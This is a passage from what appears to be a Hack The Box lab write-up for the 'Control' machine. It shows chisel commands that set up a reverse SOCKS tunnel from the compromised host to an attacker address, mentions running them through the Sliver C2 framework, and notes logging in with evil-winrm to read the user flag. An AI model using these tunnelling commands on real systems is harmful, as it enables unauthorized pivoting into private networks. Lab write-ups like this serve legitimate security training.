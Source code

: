 Using Chisel for socks connection because we see there are not much port we can connect from outside of the box
Chisel BOF command for sliver

```bash
chisel client 10.10.14.216:5555 R:1081:socks
```

```bash
./chisel_1.10.1_linux_arm64 server --port 5555 --reverse --socks5
```

![image.png](/assets/Images/HTB_Control/image%2020.png)

Using evil-winrm to connect to the machine and reading the user.txt

![image.png](/assets/Images/HTB_Control/image%2021.png)
